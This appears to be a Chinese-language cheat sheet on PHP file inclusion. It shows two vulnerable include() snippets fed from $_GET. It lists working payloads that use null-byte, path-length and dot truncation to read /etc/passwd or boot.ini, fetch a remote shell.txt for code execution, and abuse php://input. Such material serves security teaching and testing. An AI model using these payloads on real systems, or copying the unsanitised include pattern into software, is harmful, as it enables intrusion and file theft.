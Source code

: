 ## 有限制的本地文件包含

``` php
<?php include("inc/" . $_GET['file'] . ".htm");?>
```

### 攻击方式

#### %00 截断

::: tip 攻击方式
?file=../../../../../../../../../etc/passwd%00<br>
(需要 magic_quotes_gpc=off, PHP 小于 5.3.4 有效)
:::

#### %00 截断目录遍历

::: tip 攻击方式
?file=../../../../../../../../../var/www/%00<br>
(需要 magic_quotes_gpc=off, unix 文件系统, 比如 FreeBSD, OpenBSD, NetBSD, Solaris)
:::

#### 路径长度截断: 

::: tip 攻击方式
?file=../../../../../../../../../etc/passwd/././././././.[...]/./././././.<br>
(php 版本小于 5.2.8(?)可以成功, linux 需要文件名长于 4096, windows 需要长于 256)
:::

#### 点号截断: 

::: tip 攻击方式
?file=../../../../../../../../../boot.ini/.........[...]............<br>
(php 版本小于 5.2.8(?)可以成功, 只适用 windows, 点号需要长于 256)
:::

## 普通远程文件包含

``` php
<?php include($_GET['file']);?>
```

### 攻击方式

#### 远程代码执行: 

::: tip 攻击方式
?file=[http|https|ftp]\://example.com/shell.txt<br>
(需要 allow_url_fopen=On 并且 allow_url_include=On)
:::

#### 利用 php 流 input: 

::: tip 攻击方式
?file=php://input<br>
(需要 allow_url_include=On)
:::
